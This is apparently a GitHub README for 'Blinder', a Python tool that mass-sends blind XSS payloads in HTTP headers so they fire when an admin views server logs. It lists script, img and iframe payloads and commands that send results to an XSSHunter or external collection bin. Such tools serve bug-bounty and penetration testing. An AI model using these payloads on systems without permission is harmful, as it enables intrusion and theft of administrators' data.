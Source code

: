 # Blinder
- A Tool Written In Python3 To Send Blind Payloads On The Request Headers Maybe Stored On The Logs

## Description
- That's a New Version Of Blinder You Can Use To Automate Sending Payloads Into URLs With a Fast Way. It Basicly Uses The Payload You Provide To Send It On The Value Of The *User-Agent* Header To Inject The Payload Into The Server Logs If The Admin Can View It. In This Case You Should Receive An Alert On Your XSSHunter/Bin. That's Just It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Been Able To Select Your Own Header On The Requests That Will Be Sent.
- Selecting Your Own Replace String That Will Be Replaced To Your XSSHunter/Bin
- Cleaner Code!

## How To Use:
#### Basic:
- You Can Run Blinder In a Basic Usage By Just Using This Command. Where `-u` Options Is Your XSSHunter Username And `-f` Is The File That Contains The URLs With NewLine Seprator
```
python3 Blinder.py -u hacker -f URLs
```

#### Redirections
- To Disallow/Allow Redirections You Can Use `-r` Options With The Rule You Want. Disallowing Redirections Will Make The Tool Faster But It Might Miss Some Results. By Default Redirections Is Allowed On Blinder

- The Redirection Rules Are `allow` and `deny` In LowerCase. The Program Will Trigger An Error In Case You Used Something Else.
```
python3 Blinder.py -u hacker -f URLs -file -r deny
```
#### Payloads And Multi Payloads.
- In Blinder The Default Payload Is `"><script src=XSSHunter></script>`That's The Same as The Default One On XSShunter Website. In Case You Want To Use Another Payloads For XSS Or Something Else Like SSTI , CSTI You Can Add It Using `-p` Option That Can Be Used With Some Command Like The First Example

- In Case You Want To Use Multi Payloads You Can Add Your Payloads Then Seprate Them Using `,` For Default Usage, See The Second Example For That, In Case You Want To Seprate Them By Something Else You Can Use `-s` Option. And You Will Find It In The Third Example. 

- You Can Select What Text You Want To Get Replaced To Your XSSHunter/Bin Using `--replace` Option. You Will Get a Sample In The Forth Example. Also, In Case You Didn't Add The Replace String The Program Will Use `XXX` For Default.
```
python3 Blinder.py -u hacker -f URLs -p '"><img src="XXX">'
```
```
python3 Blinder.py -u hacker -f URLs -p '<img src="XXX">,<iframe src="XXX">'
```
```
python3 Blinder.py -u hacker -f URLs -p '<img src="XXX">_<iframe src="XXX">' -s '_'
```

```
python3 Blinder.py -u hacker -f URLs -p '<img src="RRR">_<iframe src="RRR">' -s '_' --replace 'RRR'
```

#### Headers
- In This New Update You Can Select What Headers You Want To Use To Send The Payloads On. The Default Is The `User-Agent` Header But You Can Add Your Own Header Using `--header` Option. See The Example Below

```
python3 Blinder.py -u hacker -f URLs --header test
```

#### External Bin
- In Case You Don't Want To Use XSSHunter And You Have Your Own Requeest Bin That Can Collect The Users Data You Can Use `-b` Option With Your External Bin Including The Protocol `http:` `https:`

```
python3 Blinder.py -b https://site.com/ -f URLs
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
